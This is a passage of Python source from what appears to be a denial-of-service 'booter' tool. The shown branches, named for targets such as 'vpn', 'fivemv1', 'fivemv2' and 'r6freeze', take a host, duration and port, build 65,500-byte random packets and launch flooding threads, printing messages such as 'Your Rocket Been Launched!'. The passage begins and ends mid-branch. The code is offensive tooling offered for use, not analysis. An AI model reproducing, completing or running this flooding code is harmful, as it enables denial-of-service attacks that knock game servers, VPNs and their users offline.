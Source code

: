 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "vpn":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fivemv1":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fivemv2":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "r6freeze":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()